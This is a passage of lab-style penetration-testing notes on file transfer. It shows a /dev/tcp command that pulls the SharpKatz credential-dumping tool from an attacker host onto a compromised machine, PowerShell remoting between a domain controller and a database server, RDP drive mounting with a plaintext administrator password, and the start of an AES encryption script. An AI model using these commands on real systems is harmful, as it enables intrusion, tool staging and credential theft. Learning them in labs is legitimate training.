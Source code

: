 #### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
## PowerShell Session File Transfer
#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
#### Create a PowerShell Remoting Session to DATABASE01
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
## RDP
#### Mounting a Linux Folder Using rdesktop
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
#### Mounting a Linux Folder Using xfreerdp
```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
# Protected File Transfers
## File Encryption on Windows
#### Invoke-AESEncryption.ps1
```powershell
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text" 

Description
-----------
Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
 
.EXAMPLE
```